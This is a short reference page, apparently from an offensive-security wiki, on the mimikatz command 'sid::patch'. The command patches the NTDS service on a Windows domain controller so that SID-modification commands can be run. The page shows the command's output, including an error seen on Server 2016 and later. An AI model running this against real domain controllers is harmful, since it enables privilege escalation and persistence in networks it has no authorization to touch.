 # patch

{% hint style="danger" %}
Attempting `sid::patch` on a Windows domain controller 2016 and above will result in the following error.

```
mimikatz # sid::patch
Patch 1/2: "ntds" service patched
Patch 2/2: ERROR kull_m_patch_genericProcessOrServiceFromBuild ; kull_m_patch (0x00000057)
```

[Dliv3](https://github.com/Dliv3) has [reported](https://github.com/gentilkiwi/mimikatz/issues/348) a similar situation on a Windows Server 2019.&#x20;

_At the time of writing (January 13th, 2023), there is no known fix to this._&#x20;
{% endhint %}

`sid::patch` can be used to patch the NTDS (NT Directory Services). It's useful when running [`sid::modify`](modify.md) or [`sid::add`](add.md).

```
mimikatz # sid::patch
Patch 1/2: "ntds" service patched
Patch 2/2: "ntds" service patched
```
